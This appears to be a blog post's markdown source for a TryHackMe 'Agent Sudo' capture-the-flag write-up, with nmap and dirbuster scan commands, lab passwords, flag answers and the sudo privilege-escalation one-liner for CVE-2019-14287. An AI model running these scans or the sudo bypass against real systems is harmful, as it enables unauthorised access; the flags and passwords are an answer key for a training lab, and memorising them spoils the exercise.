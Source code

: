 ```yaml
---
layout: post
title: 'Tryhackme: Agent Sudo'
date:  2025-06-14 23:00:00 +0530 
categories: [Tryhackme]
tags: [hacking, tryhackme, writeup,ctf, Agent_Sudo,sudo, apt, ssh, ftp] # TAG names should always be lowercase 
render_with_liquid: false
media_subpath: /images/Agent_Sudo/

---
```


# Tryhackme: Agent Sudo - 14 June 2k25

![TryHackMe Logo](THM.png)

![Agent Sudo](Agent_Sudo .png){: width="600" height="50" .shadow }

---

# 🕵️ Reconnaissance/ Enumerate  - Task 1

> **Username:** `chris`  
> **Login:** `chris`  
> **Password:** `crystal`

---

## 🔍 Nmap Scan

**Command:**
```bash
sudo nmap -T4 -n -sC -sV -Pn -p- -oN fastscan.txt 10.10.5.56
```

![Nmap Scan Screenshot](nmap_scan.png)

---

## 📂 Directory Scan (Dirbuster)

**Command:**
```bash
dirbuster -u http://10.10.199.108/content/ -l /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 20
```

![Directory Scan Screenshot](directory_scan.png)

---

## ❓ Questions and Answers

| #  | Question                                   | Answer                  |
|----|--------------------------------------------|-------------------------|
| 1  | How many open ports?                       | `3`                     |
| 2  | How do you redirect yourself to a secret page? | `user-agent`        |
| 3  | What is the agent name?                    | `chris`                 |

---

## 🔑 Hash Cracking & Brute-Force Task - 2

| #  | Question                        | Answer           |
|----|---------------------------------|------------------|
| 4  | FTP password                    | `crystal`        |
| 5  | Zip file password               | `alien`          |
| 6  | Steg password                   | `Area51`         |
| 7  | Who is the other agent (full name)? | `james`      |
| 8  | SSH password                    | `hackerrules!`   |

---

## 🏁 Capture the User Flag Task - 3

![SSH FLAG](ssh_flag.png)

| #  | Question                         | Answer                              |
|----|----------------------------------|-------------------------------------|
| 9  | What is the user flag?           | `b03d975e8c92a7c04146cfa7a5a313c7`  |
| 10 | What is the incident of the photo called? |                                 |

---

## ⬆️ Privilege Escalation Task - 4

```bash
sudo -u#-1 /bin/bash
```

![SSH FLAGS](ssh_and_flags.png)

| #   | Question                                      | Answer                  |
|-----|-----------------------------------------------|-------------------------|
| 11  | CVE number for the escalation (Format: CVE-xxxx-xxxx) | `CVE-2019-14287` |
| 12  | What is the root flag?                        | `b53a02f55b57d4439e3341834d70c062` |
| 13  | (Bonus) Who is Agent R?                       | `DesKel`                |

---


## 🎉 Happy Hacking!

> *“The quieter you become, the more you are able to hear.”*  
> — **Agent Sudo**

<div align="center">
    <a href="https://giphy.com/gifs/charlie-hunnam-gif-hunt-102h4wsmCG2s12">
        <img src="https://media.giphy.com/media/102h4wsmCG2s12/giphy.gif" alt="Charlie Hunnam GIF" width="400"/>
    </a>
</div>

---
